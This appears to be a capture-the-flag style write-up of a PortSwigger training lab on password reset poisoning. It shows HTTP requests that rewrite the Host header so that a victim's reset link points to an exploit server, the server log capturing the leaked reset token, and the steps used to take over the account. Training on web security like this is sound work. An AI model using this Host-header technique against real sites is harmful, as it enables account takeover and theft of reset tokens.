

# [Lab: Basic password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)

## Lab

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Detect

arbitrary host:

  ```http
  POST /forgot-password HTTP/1.1
  Host: ab

  HTTP/1.1 200 OK
  ```

## Analysis

server use the host header value to create forgot-password url:

```http
POST /forgot-password HTTP/1.1
Host: hacked

username=wiener
```

=>



## Solutions

intercept a forgot password for `carlos` account:

```http
POST /forgot-password HTTP/1.1
Host: id.web-security-academy.net

csrf=RQr6byJSaljEYYHYKYAYbfAVmbidRpbc&username=carlos
```

change the `Host` header to exploit domain:

```http
POST /forgot-password HTTP/1.1
Host: exploit-id.exploit-server.net

csrf=RQr6byJSaljEYYHYKYAYbfAVmbidRpbc&username=carlos
```

forward, then check logs at the exploit-server:

```text
10.0.3.217      2023-02-06 09:36:58 +0000 "GET /forgot-password?temp-forgot-password-token=IjA38Dxt3OfsjkaM0NiatyrNwSsad0B0 HTTP/1.1"
```

access `/forgot-password` endpoint with the observed token to change Carlos's password, login => solved
